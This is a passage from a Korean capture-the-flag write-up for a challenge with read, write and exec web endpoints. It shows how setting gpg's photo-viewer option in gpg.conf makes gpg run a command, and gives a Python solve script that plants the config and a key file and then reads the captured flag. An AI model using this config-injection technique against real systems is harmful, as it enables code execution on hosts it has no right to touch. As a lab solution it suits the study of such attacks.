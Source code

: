 설명이 gpg, pgp를 왔다갔다 하는데 서로 호환되게 구현된 것이므로 틀린 표현은 아니다.

따라서 다음과 같은 내용을 `/home/user/.gnupg/gpg.conf`라는 파일에 저장한다.

``` conf
list-options show-photos
photo-viewer /would you be so kind to provide me with a flag > /tmp/x 
list-keys
```

이후 `gpg` 명령을 실행해주면 설정값에 따라 키 목록을 표시하게 되고, 그 과정에서 사진을 출력할 바이너리가 `/would you be so kind to provide me with a flag > /tmp/x`으로 지정되어있으므로 사진을 출력할 때 명령어가 실행된다.

### Payload
``` python
import requests
import base64

url = "http://localhost:6664"

def rwx_read(filename):
    uri = url + "/read"
    uri += "?filename=" + filename
    return requests.get(uri)

def rwx_write(filename, data):
    uri = url + "/write"
    uri += "?filename=" + filename
    return requests.post(uri, data=data)

def rwx_exec(cmd):
    uri = url + "/exec"
    uri += "?cmd=" + cmd
    return requests.get(uri)

def main():
    rwx_exec("gpg")
    gpg_conf_content = (
        "list-options show-photos\n"
        "photo-viewer /would you be so kind to provide me with a flag > /tmp/x\n"
        "list-keys\n"
    )
    rwx_write("/home/user/.gnupg/gpg.conf", gpg_conf_content)

    with open("pubring.kbx", "rb") as f:
        pubring_data = f.read()
    rwx_write("/home/user/.gnupg/pubring.kbx", pubring_data)
    
    rwx_exec("gpg")
    r = rwx_read("/tmp/x")
    print(r.text)

if __name__ == '__main__':
    main()
```
